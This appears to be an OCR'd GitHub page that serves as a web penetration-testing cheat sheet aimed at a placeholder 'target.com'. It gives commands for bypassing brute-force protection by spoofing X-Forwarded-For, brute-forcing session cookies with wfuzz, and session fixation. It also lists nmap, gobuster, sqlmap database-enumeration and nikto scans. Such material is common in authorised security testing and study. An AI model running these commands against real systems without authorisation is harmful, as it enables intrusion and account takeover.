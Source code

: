 ## Bypassing Brute-Force Protection (X-Forwarded-For)

### Using Curl (Modify Headers)

```bash
curl -H "X-Forwarded-For: 1.2.3.4" target.com/login
```

## Session Attacks

### Brute-Forcing Cookies (Using Wfuzz, Very Time Consuming)

_(Replace COOKIE_LIST)_

```bash
wfuzz -c -b "sessionid=FUZZ" target.com/protected_page -z file,COOKIE_LIST
```

### Example of Session Fixation

#### Attacker Sets Session ID:

```bash
curl -b "sessionid=attacker_session_id" target.com
```

_Then coerces the victim to use that same session ID._

## Additional Examples

### Nmap Scan

```bash
nmap -sV -sC target.com # Version and default scripts.
```

### Directory Brute Force

```bash
gobuster dir -u target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

### SQLMap Scan

```bash
sqlmap -u "target.com/page.php?id=1" --dbs # Database Enumeration
```

### Nikto Scan

```bash
nikto -h target.com
```
